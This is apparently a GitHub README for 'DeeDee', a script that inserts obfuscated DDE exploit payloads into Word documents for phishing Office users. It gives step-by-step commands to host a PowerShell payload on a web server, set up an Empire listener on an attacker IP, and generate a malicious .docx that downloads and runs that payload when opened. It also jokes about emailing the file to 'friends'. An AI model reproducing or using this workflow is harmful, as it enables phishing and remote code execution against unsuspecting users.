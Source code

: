 <h2> DeeDee Office Payload Generator<h6>Baking Evil Cookies since 2017<br>Author: True Demon</h2>

<h3>Introduction</h3>

DeeDee is a script for quickly generating DDE Exploit payloads and inserting them into ready-made documents for
phishing attempts against MS office users. The purpose of the script is to simplify and reduce the steps necessary to insert a
malicious DDE payload into supported versions of Office documents. It accomplishes this by inserting the payload in raw XML 
into the document themselves complete with known obfuscation methods to ensure a successful delivery and execution. This is
accomplished by inserting a reliable download script in powershell into the DDE payload, which calls out to the attacker's web
server hosting their desired payload. Currently, Empire payloads have had the best success.

<h3>Procedure</h3>

Start by creating a powershell payload that you would like to run on the remote host. If you use base64 encoding, this must be
specified in the script later. Base64 encoding is definitely recommended for successful execution. Save the payload to a txt
file in a temporary directory and start up a web server. The Python Simple HTTP server is sufficient, but any web server will do.

<b>EXAMPLE:</b>
<pre>
cd /tmp/payloads
python3 http.server [port]
cp /tmp/empirepayload.txt /tmp/payloads/evil.txt
[*] Now you can then run deedee.py to create your malicious docx file.
</pre>

<br/>
<b>use -i for your input file [default = template/blank.docx]</b>

<pre>
<b>NOTE</b>: You must use the "blank.docx" file in /path/to/deedee/templates/ to start with. <br/>
You can edit any part of this document before or after you have run deedee, provided that you DO NOT MODIFY THE FOOTER.
It is recommended you edit it beforehand and save it to the templates folder. This way, you can use it again later.
</pre>

<b>use -o to specify where you would like your output to go</b>
<pre>
deedee@thekitchen:/# ./deedee.py -i templates/myphishing.docx -o /tmp/payloads/evilcookies.docx

Enter the path to your http server & empirepayload: 
> http://my-ip-addr/evil.txt

Granny DeeDee bakes up some magic cookies for your enjoyment...
and you can email the evilcookies.docx to share with your friends :)
</pre>
<br/>
<h3>Supported Techniques</h3>

    - Raw Powershell Payload insertion
    - Empire Web Delivery Method


<h3>Planned Additions</h3>

    - Empire & Metasploit specific payloads
    - QUOTE-SET-REF method obfuscation
    - Mimikatz dump payload
    - Invoke-MetasploitPayload method
    - Self-starting payload delivery web server


<h3>Instructions</h3>

<h4>USAGE</h4>
<pre>
deedee@thekitchen:/# ./deedee.py -h
usage: deedee.py [-h] [-i INPUT_FILE] [-o OUTPUT_FILE] [-c] [-v] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT_FILE, --input_file INPUT_FILE
                        Payload carrier file
  -o OUTPUT_FILE, --output_file OUTPUT_FILE
                        File with payload attached
  -c, --custom_payload  Override the default web delivery method with a custom
                        CMD/PSH payload as a string
  -v, --verbose         Show verbose output
  --debug               Print debug statements
</pre>
<h4>Full Example</h4>

<h5>Start Your Webserver</h5>
<pre>
deedee@thekitchen:/# cd /tmp/payloads
deedee@thekitchen:/# python3 -m http.server 8443         // Remember whatever port number you use here...
</pre>

<h5>Generate your malicious payload</h5>
<pre>
deedee@thekitchen:/# /usr/share/empire/./empire
> listeners
> uselistener http
> set Port 443
> set Host 192.168.1.123
> execute
> launcher powershell
</pre>

<em>COPY THE ENCODED PAYLOAD AND SAVE IT TO YOUR WEB SERVER DIRECTORY (Ignore "powershell -nop -sta -w 1 -enc")</em>
<pre>
deedee@thekitchen:/# echo "MASSIVEEMPIREPAYLOADINBASE64HERE" > /tmp/payloads/evil.txt
</pre>

<h5>Now you're ready to create your phishing document...</h5>
<pre>
deedee@thekitchen:/# ./deedee.py -i ~/PhishingTemplates/inconspicuous.docx -o /tmp/payloads/evilscheme.docx

[!] Let's bake some evil cookies!

[*] First, we'll be needing some ingredients!
|	 First, mix up the powershell payload you want executed on the host with your favorite framework,
|	 save it as a text file, and host it on a local web server. Now I just need to know where to find it.
|	 URI to payload...
|	 (ex: http://evilserv.ninja/blabbity.txt)
|		 #>:http://192.168.1.123:8443/evil.txt                  // This is the full path to your web server with your empire payload
|	 Will you be using an encoded payload? [y/N] #>: N
[?] Would you like to leave a special note on the error message for your friend? [default: "for security reasons"]
[+] Grabbing my bag of magic XML...:                            // Loading the payload
[+] Checking for my recipe...                                   // Making sure you used blank.docx as your template
[+] Ah, here it is!                                             // Your document is compatible!
[+] Tossing three cups of evil into the XML...                  // Generating your payload with your web server address
[+] Added a teaspoon of powershell...                           // Setting up the powershell payload
[+] ...Some malicious intent, and a few naughty thoughts ;)     // Obfuscating the payload
[+] Mixing XML into the DOCX...                                 // Creating the XML files and rebuilding your docx
[+] The cookies are in the oven...                              // Ensures the docx is not corrupted
[+] DING! The evil cookies are done!                            // SUCCESS! :)
</pre>

<h3>Acknowledgements</h3>
<pre>
Michael Benich @benichmt1 - Provided a lot of additional research material necessary to create this exploit
<a href=https://sensepost.com/blog/2017/macro-less-code-exec-in-msword>Etienne Stalmans & Saif El-Sherei </a>- For their amazing, combined research efforts into DDE exploitation and obfuscation
Mike Czumak @SecuritySift - For his payload obfuscation methods & research
<a href=https://pwndizzle.blogspot.com/2017/03/office-document-macros-ole-actions-dde.html>PwnDizzle</a>                 - For his/her research provided on his blog
<a href=http://github.com/xillwillx>Vincent Yiu @vysecurity </a>  - For code concepts derived from his CactusTorch project
<a href=http://github.com/0xdeadbeefJERKY>0xdeadbeefJERKY</a>           - For code concepts derived from his Office-DDE-Payloads project
</pre>